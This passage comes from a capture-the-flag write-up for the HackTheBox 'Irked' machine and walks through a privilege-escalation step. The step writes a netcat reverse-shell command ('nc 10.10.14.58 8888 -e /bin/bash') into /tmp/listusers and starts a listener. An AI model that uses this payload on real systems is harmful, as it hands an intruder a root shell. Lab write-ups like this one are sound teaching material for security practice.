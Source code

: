 
Permissions denided? what did the program try to do with the file? lets add full permissons and run it again:

![err-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Irked/img/err-26.png)


A `root: not found` error? this looks like the error bash raises when you try to run a program that doesnt exists on the system. Could this program be running `/tmp/listusers` as a script?


Let's add a reverse shell payload with:

```bash
echo 'nc 10.10.14.58 8888 -e /bin/bash' > /tmp/listusers
```

![payload-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Irked/img/payload-27.png)


Setup a local listener on our attack machine:

```bash
rlwrap nc -lnvp 8888
```

And run the program again:

![stalls-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Irked/img/stalls-28.png)


It stalls, that's a great sign. Let's check the listner:
